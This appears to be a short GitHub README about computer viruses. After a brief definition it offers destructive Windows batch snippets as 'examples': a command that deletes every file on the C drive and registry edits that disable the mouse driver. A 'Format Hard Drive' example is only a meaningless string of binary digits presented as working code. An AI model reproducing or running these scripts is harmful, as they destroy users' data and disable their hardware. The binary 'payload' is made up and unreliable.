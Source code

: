 # Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code or documents. By doing this, it behaves similarly to a biological virus, which spreads by inserting itself into living cells. While some viruses are harmless or more hoaxes, most are considered malicious.  

### Examples
This examples are based on Windows machines but they still can really distroy you computer if you run it so be careful.  
    
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```

**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```

**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Article
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad/)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
